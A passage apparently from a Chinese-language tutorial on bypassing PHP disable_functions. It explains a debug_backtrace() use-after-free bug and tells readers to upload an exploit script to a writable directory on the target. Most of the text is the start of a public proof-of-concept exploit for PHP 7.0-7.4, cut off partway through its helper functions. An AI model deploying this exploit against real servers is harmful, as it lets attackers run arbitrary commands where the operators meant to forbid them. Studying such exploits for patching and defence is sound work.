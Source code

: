  该漏洞利用在debug_backtrace()函数中使用了两年的一个 bug。我们可以诱使它返回对已被破坏的变量的引用，从而导致释放后使用漏洞。

利用脚本：https://github.com/mm0r1/exploits/tree/master/php7-backtrace-bypass

## 脚本利用

同上，在确认存在disable_function后，找到一个目录有上传文件的权限，上传脚本

```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable 
# that has been destroyed, causing a UAF vulnerability.
#
# This exploit should work on all PHP 7.0-7.4 versions
# released as of 30/01/2020.
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
```